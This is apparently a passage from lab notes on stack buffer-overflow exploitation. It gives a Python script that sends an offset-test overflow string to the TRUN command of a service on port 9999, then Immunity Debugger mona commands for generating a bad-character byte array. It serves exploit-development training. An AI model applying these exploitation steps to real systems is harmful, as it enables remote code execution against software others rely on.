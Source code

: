 ```
#!/usr/bin/python3

import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```

## Mona

* create a folder called `mona` in `C:\`
* declare in Immunity Debugger that you want ***mona*** to save data in that folder
* `!mona config -set workingfolder c:\mona`
* now we can generate a bad characters list with mona
* `!mona bytearray -cpb "\x00"` generating a payload list for us that excludes the null byte
* if you go to your mona folder you'll see that it puts a nice text file in it
* you can copy it and paste it into your script, don't need to go out and look for bad chars on websites
* mona also creates a .bin file which is handy when we compare this array to find bad chars

![18-mona-bad-chars-byte-array](images/17-mona-bad-chars-byte-array.png)
